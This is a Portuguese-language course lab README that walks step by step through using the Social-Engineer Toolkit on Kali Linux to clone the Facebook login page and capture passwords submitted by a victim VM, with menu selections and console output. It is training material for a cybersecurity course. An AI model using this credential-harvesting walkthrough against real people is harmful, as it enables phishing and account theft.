 <h1>
    <a href="https://www.dio.me/">
     <img align="center" width="40px" src="https://hermes.digitalinnovation.one/assets/diome/logo-minimized.png"></a>
    <span>Desafio de projeto</span>
    <img align="center" width="100px" src="https://hermes.dio.me/tracks/f7103da6-32cf-46a4-be1c-c97067534355.png">    
</h1>

Disponibilização do **README.md** com orientações de como criar um Phishing para capturar senhas de login do Facebook.<br> **Formação Cybersecurity Specialist** da <img width="70px" background-color="black" src="https://hermes.digitalinnovation.one/assets/diome/logo.svg"> [Digital Innovation One](https://www.dio.me/).

**Pré-Requisitos:**

- **VM Windows**
- **VM Kali Linux**
- **Setoolkit:** Ferramenta para criar uma página falsa do Facebook para captura de senhas

## Configurando o Phishing no Kali Linux

1. Acessando com root: 
``` 
$ sudo su - root
```

2. Iniciando  a ferramenta **Setoolkit**: 
```
# setoolkit
```

3. Selecionando o tipo de ataque, neste caso a **opção 1**: 
```
...
            Visit: https://www.trustedsec.com
    It's easy to update using the PenTesters Framework! (PTF)
Visit https://github.com/trustedsec/ptf to update all your tools:

Select from the menu:

    1) Social-Engineering Attacks 
    2) Penetration Testing (Fast-Track)
    3) Third Party Modules
    4) Update the Social-Engineer Toolkit
    5) Update SET configuration
    6) Help, Credits, and About

    99) Exit the Social-Engineer Toolkit

set> 1
```

4. Selecionando o vetor de ataque no próximo menu, neste caso a **opção 2**: 
``` 
Select from the menu:

    1) Spear-Phishing Attack Vectors
    2) Website Attack Vectors
    3) Infectious Media Generator
    4) Create a Payload and Listener
    5) Mass Mailer Attack
    6) Arduino-Based Attack Vectors
    7) Wireless Access point Attack Vectors
    8) QRCode Generator  Attack Vectors
    9) Powershell  Attack Vectors
    10) Third Party Modules

    99) Return back to the main menu.

set> 2
```

5. Selecionando o método de ataque no próximo menu, neste caso a **opção 3**: 
```
...

    1) Java Applet Attack Method
    2) Metasploit Browser Exploit Method 
    3) Credential Harvester Attack Method
    4) Tabnabbing Attack Method
    5) Web Jacking Attack Method
    6) Muiti-Attack Web Method
    7) HTA Attack Method

    99) Return to Main menu

set:webattack> 3
```

6. Selecionando o método de ataque no próximo menu, neste caso a **opção 2**, em seguida o IP do servidor <enter>. Depois, informe a URL a ser clonada **www.facebook.com** : 
```
...
    1) Web Templates
    2) Site Cloner
    3) Custom Import

    99) Return to Webattack menu

set:webattack> 2
[-] Credential harvester will allow you to utilize the clone capabilities within SET
[-] to harvest credentials or parameters from a website as well as plac them into a report
...

set:webattack> IP address for the POST back in Harvester/Tabnabbing [192.168.10.18]: <enter>
[-] SET supports both HTTP and HTTPS
[-] Example: http://www.thisisafakesite.com
set:webattack> Enter the url to clone:http://www.facebook.com

[*] Cloning the website: https://login.facebook.com/login.php
[*] This could take a litle bit..

The best way to use this attack is if username and password from fields are available. 
Regardless, this captures all POST on a website

[*] The Social-Engineer Toolkit Credential Harvester Attack
[*] Credential Harvester is running on port 80
[*] Information will be displayed to you as it arrives bellow:
192.168.10.18 - - [08/10/2023 01:21:54] "GET / HTTP/1.1" 200 -
...
```

7. Pela **VM Windows** acesse o IP configurado, neste caso **192.168.10.18**

## Resutados:

![Alt text](prints/passwd.png "Captura de tela do setoolkit")

![Alt text](prints/passwd1.png "Captura de tela do setoolkit")


## Referências:

[Capturando senhas com Social Engineering Toolkit e Ettercap](https://www.nanoshots.com.br/2015/09/capturando-senhas-com-social.html)

[Git Cassiano](https://github.com/cassiano-dio/cibersecurity-desafio-phishing)

[Git Trustedsec](https://github.com/trustedsec/ptf)

## Redes Socias

[![PerfilDIO](https://img.shields.io/badge/DIO-0077B5?style=for-the-badge&logo=dio&logoColor=white)](https://web.dio.me/users/marcelo_soares92)
[![GitLab](https://img.shields.io/badge/GitLab-000?style=for-the-badge&logo=gitlab&logoColor=E94D5F)](https://gitlab.com/Mdsoare/)
[![GitHub](https://img.shields.io/badge/GitHub-000?style=for-the-badge&logo=github&logoColor=30A3DC)](https://github.com/Mdsoare/)
[![LinkedIn](https://img.shields.io/badge/LinkedIn-0077B5?style=for-the-badge&logo=linkedin&logoColor=white)](https://www.linkedin.com/in/marcelodsoares/) 

<table>
  <tr>
    <td>
      <img width="80px" align="center" src="https://avatars.githubusercontent.com/Mdsoare"/>
    </td>
    <td align="left">
      <a href="https://github.com/Mdsoare">
        <span><b>Marcelo Soares</b></span>
      </a>
      <br>
      <span>Analista de Sistemas</span>
    </td>
  </tr>
</table>

##
<div align="center">Disponibilizado por <a href="https://github.com/Mdsoare">🕶 Marcelo Soares ®</a>.</div>